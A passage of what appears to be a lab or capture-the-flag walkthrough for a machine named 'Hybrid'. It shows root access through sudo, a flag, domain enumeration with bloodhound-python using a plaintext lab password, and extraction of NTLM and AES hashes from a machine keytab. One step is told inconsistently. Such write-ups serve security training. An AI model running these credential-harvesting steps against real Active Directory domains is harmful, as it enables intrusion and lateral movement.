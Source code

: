 
Become root:
```
peter.turner@hybrid.vl@mail01:~$ sudo su
root@mail01:/home/peter.turner@hybrid.vl# id
uid=0(root) gid=0(root) groups=0(root)
```


Root flag: `VL{732f10b1eb439d9291c2b88c3fed66fe}`
```
root@mail01:~# cat flag.txt 
VL{732f10b1eb439d9291c2b88c3fed66fe}
```

---

## AD
Use the peter.turner user to enumerate domain information with BloodHound.
```
┌──(kali㉿kali)-[~]
└─$ bloodhound-python -d hybrid.vl -c all -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -ns 10.10.245.85
INFO: Found AD domain: hybrid.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.hybrid.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.hybrid.vl
INFO: Found 14 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: mail01
INFO: Querying computer: dc01.hybrid.vl
WARNING: Could not resolve: mail01: The resolution lifetime expired after 3.110 seconds: Server Do53:10.10.245.85@53 answered The DNS operation timed out.
INFO: Done in 00M 07S
```


Since BloodHound returned no useful information we can use certipy to check for vulnerable certificates. In BloodHound we find that there is a keytab file stored on the Linux machine that we can use to get an NTLM hash: use [PoC](https://github.com/sosdave/KeyTabExtract/blob/master/keytabextract.py) to extract data from the file.
```
┌──(kali㉿kali)-[~]
└─$ python3 extract.py krb5.keytab 
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : HYBRID.VL
        SERVICE PRINCIPAL : MAIL01$/
        NTLM HASH : 0f916c5246fdbc7ba95dcef4126d57bd
        AES-256 HASH : eac6b4f4639b96af4f6fc2368570cde71e9841f2b3e3402350d3b6272e436d6e
        AES-128 HASH : 3a732454c95bcef529167b6bea476458
```
